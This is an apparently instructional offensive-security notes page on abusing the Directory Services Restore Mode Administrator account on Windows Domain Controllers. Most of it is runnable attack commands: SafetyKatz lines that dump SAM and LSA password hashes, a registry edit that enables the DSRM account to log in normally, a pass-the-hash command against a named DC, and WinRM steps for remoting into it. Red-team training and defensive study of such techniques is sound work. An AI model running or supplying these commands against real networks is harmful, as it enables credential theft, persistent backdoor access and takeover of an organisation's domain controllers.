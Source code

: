 # DSRM

Every Domain Controller (DC) contains a **built-in local Administrator account** used for Directory Services Restore Mode (DSRM). This account is created during DC promotion and protected with a password (`SafeModePassword`) that is **often never rotated post-deployment** — making it a valuable and persistent credential target.

<figure><img src="../../../.gitbook/assets/dsrm_config (1).png" alt=""><figcaption></figcaption></figure>

Although this Administrator account is local to the DC and not part of AD, if the DC is misconfigured, the DSRM account can be abused for [Pass-the-Hash (PtH)](../lateral-movement/pass-the-hash.md) attacks. With Domain Admin (DA) privileges, its NTLM hash can be extracted using tools like [SafetyKatz](../ad-tools/safetykatz.md):

```powershell
# Extract the DSRM password hash (requires DA privileges)
SafetyKatz.exe "token::elevate" "lsadump::sam" "exit"
```

To confirm it belongs to the DSRM account and not the DA, compare it with the output of:

```powershell
# Extract the DA password hash
SafetyKatz.exe "lsadump::lsa /patch" "exit"
```

By default, the DSRM Administrator cannot log in while the system is running in normal (non-DSRM) mode. To enable login using the DSRM account, the registry key on the DC must be modified:

{% code overflow="wrap" %}
```powershell
# Allow DSRM account login in normal mode
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
```
{% endcode %}

Once enabled, a PtH attack can be perform using the DSRM account’s hash — note that the domain must be set to the **DC's hostname**, not the AD domain (as it would be for an [Overpass-the-Hash](../lateral-movement/overpass-the-hash.md) attack):

{% code overflow="wrap" %}
```powershell
# PtH with DSRM credentials
SafetyKatz.exe "sekurlsa::pth /domain:dcorp-dc /user:administrator /ntlm:<ntlm> /run:powershell.exe" "exit"
```
{% endcode %}

To access the DC via WinRM (e.g., using PowerShell remoting), ensure the host is trusted and reachable:

{% code overflow="wrap" %}
```powershell
# Add the DC as a trusted host (required to access it with RC4 via WinRM)
Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1

# Access the DC via WinRM using the NT hash
Enter-PSSession -cn 172.16.2.1 -Authentication NegotiateWithImplicitCredential
```
{% endcode %}

This technique allows lateral movement directly into the Domain Controller using a long-lived, often-overlooked local account. While powerful, it depends on misconfiguration and the attacker having DA rights for hash extraction and registry changes.
